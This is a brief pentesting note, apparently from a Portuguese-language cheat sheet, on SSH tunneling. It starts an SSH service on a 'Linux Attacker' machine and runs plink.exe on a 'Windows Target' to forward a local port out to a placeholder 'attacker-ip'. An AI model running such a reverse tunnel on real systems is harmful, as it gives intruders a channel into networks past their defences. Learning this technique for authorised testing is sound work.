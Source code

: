 # Windows

### Linux Attacker

```bash
# subir um ssh na maquina
service ssh start
```

### Windows Target

```powershell
# plink para o tunelamento
plink.exe -ssh -l user-login -pw pass -R attacker-ip:1337:127.0.0.1:5555 attacker-ip

```
